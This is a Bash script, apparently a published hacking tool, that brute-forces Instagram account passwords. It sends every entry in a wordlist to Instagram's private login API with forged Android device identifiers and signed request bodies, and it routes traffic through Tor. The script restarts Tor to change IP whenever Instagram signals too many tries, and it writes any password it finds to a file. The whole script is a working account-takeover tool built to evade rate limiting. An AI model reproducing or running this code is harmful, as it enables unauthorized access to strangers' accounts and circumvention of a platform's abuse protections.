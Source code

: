 #!/bin/bash
# Coded by @thelinuxchoice (Instagram)
checkroot() {
if [[ "$(id -u)" -ne 0 ]]; then
    printf "\e[1;77mPlease, run this program as root!\n\e[0m"
    exit 1
fi
}

banner() {

printf "\e[1;92m     _                                   _             _  _           \e[0m\n"
printf "\e[1;92m _  | |                _                | |           | || |          \e[0m\n"
printf "\e[1;92m( \ | | ____    ___  _| |_  _____   ___ | |__   _____ | || |          \e[0m\n"
printf "\e[1;92m ) )| ||  _ \  /___)(_   _)(____ | /___)|  _ \ | ___ || || |          \e[0m\n"
printf "\e[1;77m(_/ | || | | ||___ |  | |_ / ___ ||___ || | | || ____|| || |  _____   \e[0m\n"
printf "\e[1;77m    |_||_| |_|(___/    \__)\_____|(___/ |_| |_||_____) \_)\_)(_____)  \e[0m\n"
printf "\n"
printf "\e[1;77m\e[45m                     Instagram Brute Forcer. Author: @thelinuxchoice\e[0m\n"
printf "\n"
}

banner
checkroot
read -p $'\e[1;92mUsername account: \e[0m' user
read -p $'\e[1;92mPassword List: \e[0m' wl_pass

checktor() {

check=$(curl --socks5 localhost:9050 -s https://check.torproject.org > /dev/null; echo $?)

if [[ "$check" -gt 0 ]]; then
printf "\e[1;91mPlease, start TOR!\n\e[0m"
exit 1
fi

}


function changeip() {

killall -HUP tor
sleep 3

}

string8=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 8 | head -n 1)
string4=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 4 | head -n 1)
string12=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 12 | head -n 1)
string16=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 16 | head -n 1)
device="android-$string16"
uuid=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 32 | head -n 1)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var=$(curl -i -s -H "$header" https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var | awk -F ';' '{print $2}' | cut -d '=' -f3)
#echo $var2

function bruteforcer() {

checktor
for pass in $(cat $wl_pass); do

header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"$phone", "_csrftoken":"$var2", "username":"'$user'", "guid":"$guid", "device_id":"$device", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"


hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
printf "\e[1;77mTrying pass\e[0m: %s\n" $pass
check=$(curl --socks5 127.0.0.1:9050 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o '200\|challenge\|many tries\|Please wait' | uniq)
#echo $check
if [[ "$check" == "200" ]]; then
printf "\e[1;92m [*] Password Found: %s \n\e[0m" $pass
printf "Username: %s, Password: %s\n" $user $pass >> found.instashell
printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m"
exit 1
fi

if [[ "$check" == "challenge" ]]; then
printf "\e[1;92m [*] Password Found: %s\n" $pass
printf "\e[1;92m [*] Challenge required\n"
printf "Username: %s, Password: %s\n" $user $pass >> found.instashell
printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m"
exit 1
fi


if [[ "$check" == "many tries" ]]; then

printf "\e[1;31m [*] Changing IP Address...\n\e[0m"
changeip 
fi
if [[ "$check" == "Please wait" ]]; then

printf "\e[1;31m [*] Changing IP Address...\n\e[0m"
changeip 
fi

done
}

bruteforcer
